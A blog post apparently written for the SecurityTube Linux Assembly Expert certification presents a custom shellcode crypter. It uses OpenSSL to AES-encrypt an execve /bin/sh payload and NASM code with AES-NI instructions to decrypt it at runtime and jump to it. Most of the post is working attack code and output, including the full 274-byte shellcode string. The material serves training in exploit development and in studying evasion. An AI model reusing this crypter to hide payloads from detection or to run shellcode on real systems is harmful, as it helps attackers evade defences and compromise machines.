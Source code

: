 # 7. Shellcode Crypter/Decrypter

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a custom shellcode crypter/decrypter.

## Solution

The implemented solution uses OpenSSL to encrypt the payload and the [AES-NI instruction set](https://www.intel.com/content/dam/doc/white-paper/advanced-encryption-standard-new-instructions-set-paper.pdf) to decrypt and execute the payload.

The "execve-stack" payload (/bin/sh version) is encrypted using OpenSSL with AES-128 in ECB mode and the key "ABCDABCDABCDABCD":

```sh
$ openssl enc -aes-128-ecb -in execve-stack_bytes -K 41424344414243444142434441424344 -nosalt
```

The decrypter will generate the expanded key:

```nasm
global _start

section .text

jmp _start

key_expansion:
    pshufd xmm2, xmm2, 0xff
    
    ; Optimization from https://github.com/torvalds/linux/blob/master/arch/x86/crypto/aesni-intel_asm.S
    shufps xmm3, xmm1, 0x10
    pxor xmm1, xmm3
    shufps xmm3, xmm1, 0x8c
    
    pxor xmm1, xmm3
    pxor xmm1, xmm2
    add ebx, 0x10
    movups [ebx], xmm1
    ret
    
...
    
_start:
    xor eax, eax
    mov al, 0xa0
    add esp, eax                        ; allocate 10x16 bytes
    
    xor ecx, ecx
    mov cl, 0x4
push_key_loop:
    push 0x44434241                     ; "ABCD" reversed
    loop push_key_loop
    movups xmm1, [esp]                  ; xmm1 = key = "ABCDABCDABCDABCD"
    
    pxor xmm3, xmm3                     ; xmm3 = 0 (required for key expansion)
    mov ebx, esp                        ; ebx = expanded key pointer
    
    aeskeygenassist xmm2, xmm1, 0x1     ; generate round keys
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x2
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x4
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x8
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x10
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x20
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x40
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x80
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x1b
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x36
    call key_expansion
```

The encrypted payload is then decrypted and executed:

```nasm
decrypt_block:
    movups xmm0, [esp + 0x4]            ; xmm0 = data
    movups xmm1, [ebx]                  ; xmm1 = first round key
    pxor xmm0, xmm1                     ; decrypt first round
    
    mov cl, 0x9
decrypt_loop:
    sub ebx, 0x10
    movups xmm1, [ebx]                  ; xmm1 = next round key
    aesimc xmm1, xmm1
    aesdec xmm0, xmm1                   ; decrypt next round
    loop decrypt_loop
    
    sub ebx, 0x10
    movups xmm1, [ebx]                  ; xmm1 = last round key
    aesdeclast xmm0, xmm1               ; decrypt last round
    movups [esp + 0x4], xmm0            ; store decrypted block
    ret
    
...
    
    push 0x86546f74                     ; push encrypted first block
    push 0x0a2f925e
    push 0xf1d0facb
    push 0x4457cd50
    call decrypt_block                  ; decrypt first block
    
    add ebx, eax                        ; reset expanded key pointer
    
    push 0x2dc431ad                     ; push encrypted second block
    push 0xff4d311d
    push 0x2fbd3b68
    push 0xb560013a
    call decrypt_block                  ; decrypt second block
    
    jmp esp                             ; execute payload 
```

The complete source code can be found here: [decrypter.nasm](https://github.com/SpacePlant/slae32/blob/main/decrypter.nasm)

## Results

The assembled decrypter is 274 bytes including the encrypted payload the key and contains no null bytes.

```sh
$ shellcode=$(for i in $(objdump -d dec | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\xeb\x51\x66\x0f\x70\xd2\xff\x0f\xc6\xd9\x10\x66\x0f\xef\xcb\x0f\xc6\xd9\x8c\x66\x0f\xef\xcb\x66\x0f\xef\xca\x83\xc3\x10\x0f\x11\x0b\xc3\x0f\x10\x44\x24\x04\x0f\x10\x0b\x66\x0f\xef\xc1\xb1\x09\x83\xeb\x10\x0f\x10\x0b\x66\x0f\x38\xdb\xc9\x66\x0f\x38\xde\xc1\xe2\xee\x83\xeb\x10\x0f\x10\x0b\x66\x0f\x38\xdf\xc1\x0f\x11\x44\x24\x04\xc3\x31\xc0\xb0\xa0\x01\xc4\x31\xc9\xb1\x04\x68\x41\x42\x43\x44\xe2\xf9\x0f\x10\x0c\x24\x66\x0f\xef\xdb\x89\xe3\x66\x0f\x3a\xdf\xd1\x01\xe8\x89\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x02\xe8\x7e\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x04\xe8\x73\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x08\xe8\x68\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x10\xe8\x5d\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x20\xe8\x52\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x40\xe8\x47\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x80\xe8\x3c\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x1b\xe8\x31\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x36\xe8\x26\xff\xff\xff\x68\x74\x6f\x54\x86\x68\x5e\x92\x2f\x0a\x68\xcb\xfa\xd0\xf1\x68\x50\xcd\x57\x44\xe8\x2d\xff\xff\xff\x01\xc3\x68\xad\x31\xc4\x2d\x68\x1d\x31\x4d\xff\x68\x68\x3b\xbd\x2f\x68\x3a\x01\x60\xb5\xe8\x12\xff\xff\xff\xff\xe4
$ echo $shellcode | tr -cd 'x' | wc -c
274
```

The decrypter is executed successfully using the C template:

![Execve executed](images/decrypter.png)
